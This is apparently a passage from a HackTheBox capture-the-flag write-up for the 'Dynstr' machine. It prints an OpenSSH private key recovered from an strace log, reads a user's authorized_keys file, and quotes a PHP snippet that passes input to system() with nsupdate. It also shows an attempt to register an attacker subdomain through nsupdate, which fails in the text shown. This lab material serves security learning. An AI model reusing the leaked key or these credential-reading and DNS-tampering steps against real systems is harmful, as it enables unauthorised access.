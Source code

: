   After analyzing the files, noticed that in `strace-C62796521.txt` we have the private key in plain text, which was extracted and saved as an `id_rsa` file.

```plaintext
[...]
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
[...]
```

When I tried to SSH to bindmgr account using this key, noticed that it failed. Checking the contents of `authorized_keys` file, verified that we have a `from` option defined, that will prevent us from accessing the account using that key if not registered as a `*.infra.dyna.htb` subdomain.

```bash
www-data@dynstr:/tmp$ cat /home/bindmgr/.ssh/authorized_keys
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

To achieve that, we would need to edit the hosts file, not possible with current credentials, but we could also leverage `nsupdate` to include our DNS entry into the `infra.dyna.htb` zone, where I've captured the command used in the API to be reused in our scenario:

```php
// Update DNS entry
$cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
```

Based on that, crafted the following command line to add our IP as a known subdomain

```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
zone dyna.htb
update delete attacker.infra.dyna.htb
update add attacker.infra.dyna.htb 30 IN A 10.10.10.10
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key
update failed: REFUSED
```
